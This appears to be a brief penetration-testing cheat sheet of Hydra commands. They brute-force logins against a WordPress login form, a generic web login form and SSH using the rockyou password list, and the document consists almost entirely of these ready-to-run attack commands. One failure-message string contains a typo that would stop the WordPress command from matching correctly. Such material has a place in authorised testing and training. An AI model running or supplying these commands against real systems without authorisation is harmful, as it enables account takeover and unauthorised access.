#### Hydra HTTP-POST Bruteforcing Commands

####  Post Web Form
```
hydra -l username -P <password_list> 192.168.1.1 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The passowrd you entered for the username" -t 30

hydra -l username -P /usr/share/wordlists/rockyou.txt 192.168.1.1  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```
#### SSH
```
hydra -l username -P /usr/share/wordlists/rockyou.txt 192.168.1.1 ssh 

```
